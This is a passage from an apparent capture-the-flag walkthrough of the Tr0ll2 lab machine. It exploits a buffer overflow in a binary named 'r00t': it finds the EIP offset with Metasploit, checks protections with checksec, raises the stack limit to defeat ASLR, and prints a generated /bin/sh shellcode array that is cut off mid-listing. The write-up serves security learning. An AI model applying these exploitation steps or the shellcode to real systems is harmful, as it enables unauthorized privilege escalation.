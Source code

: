 ```
root@kali:/usr/share/metasploit-framework/tools# ./pattern_offset.rb 6a413969
[*] Exact match at offset 268
root@kali:/usr/share/metasploit-framework/tools# 
```

Cool! So we need to overwrite 268 bytes to get to the EIP. Let's see what protections are enabled using another useful tool ```checksec.sh```, copy it onto the host and see what it'll tell us about our binary:

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ ~/checksec.sh --file r00t 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   r00t
```

Awesome! Pretty much everything disabled - that should be easy :) And since we're on 32 bit machine, just a quick precautionary increase of the stack size to 'disable' ASLR to prevent messing with our addresses.

```
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ uname -a
Linux Tr0ll2 3.2.0-29-generic-pae #46-Ubuntu SMP Fri Jul 27 17:25:43 UTC 2012 i686 i686 i386 GNU/Linux
noob@Tr0ll2:/nothing_to_see_here/choose_wisely/door3$ ulimit -s unlimited
```

We're good to go! There are couple methods how we can exploit it and I'll describe two that came to my mind straight away - putting a shellcode in an environment variable and ret2libc. Let's do it!


Buffer overflow with payload in an environment variable
-------------------------------------------------------

Since NX is disabled, we can execute code from anywhere, including .data section. That makes it pretty simple, we can put the shellcode we want to run in an environment variable and overwrite EIP with address of the shellcode.

First, let's create a shellcode with Metasploit.

```
msf > use payload/linux/x86/exec 
msf payload(exec) > show options

Module options (payload/linux/x86/exec):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
   CMD                    yes       The command string to execute

msf payload(exec) > set CMD /bin/sh
CMD => /bin/sh
msf payload(exec) > generate -b '\x00' -s 50
# linux/x86/exec - 120 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# NOP gen: x86/opty2
# VERBOSE=false, PrependFork=false, PrependSetresuid=false, 
# PrependSetreuid=false, PrependSetuid=false, 
# PrependSetresgid=false, PrependSetregid=false, 
# PrependSetgid=false, PrependChrootBreak=false, 
# AppendExit=false, CMD=/bin/sh
buf = 
"\xb4\xbb\x46\x02\xd4\x35\x05\xf8\xbf\x4a\x1d\xb1\x93\xa8" +
"\x24\x3f\x91\x27\x2f\xb2\x41\x42\x34\x77\x13\xfd\xb0\x9b" +
"\xb6\x99\x4f\x0c\x3d\x66\x3c\xba\xb9\x43\xb5\x8d\xb7\x14" +
"\x96\x97\xb3\x37\x49\xf9\x4b\x40\xb8\xd9\xf7\xa2\xd9\xdd" +
"\xc7\xd9\x74\x24\xf4\x5d\x31\xc9\xb1\x0b\x31\x45\x15\x03" +
"\x45\x15\x83\xc5\x04\xe2\x2c\x9d\xa9\x81\x57\x30\xc8\x59" +
```